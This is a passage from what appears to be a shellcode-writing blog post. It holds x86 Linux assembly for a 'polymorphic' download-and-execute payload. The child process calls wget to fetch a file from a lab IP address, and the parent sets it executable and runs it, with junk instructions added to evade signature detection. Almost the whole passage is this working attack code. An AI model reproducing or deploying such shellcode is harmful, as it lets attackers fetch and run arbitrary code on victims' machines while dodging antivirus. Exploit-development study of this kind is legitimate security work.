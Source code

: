     push 0x7273752f ;rsu/
    mov ebx,esp
    push edx
    push ecx
    push ebx
    mov ecx,esp
    int 0x80
{% endhighlight %}

Polymorphic version:

{% highlight js %}
global _start

section .text

_start:

    ;fork
    xor eax,eax
    shl eax,5
    shr eax,6
    mov al,0x2
    int 0x80
    xor ebx,ebx
    cmp eax,ebx
    jz child
  
    ;wait(NULL)
    xor eax,eax
    cmp esi,edi
    mov al,0x7
    int 0x80
        
    ;chmod x
    xor ecx,ecx
    cld
    xor eax, eax
    push eax
    mov al, 0xf
    push 0x78
    mov ebx, esp
    std
    xor ecx, ecx
    cmp esi,edi
    mov cx, 0x1ff
    int 0x80
    
    ;exec x
    xor eax, eax
    push eax
    push 0x78
    mov ebx, esp
    push eax
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 11
    int 0x80
    
child:
    ;download 192.168.200.134/x with wget
    push 0xb
    pop eax
    cdq
    push edx
    
    push 0x78 ;x avoid null byte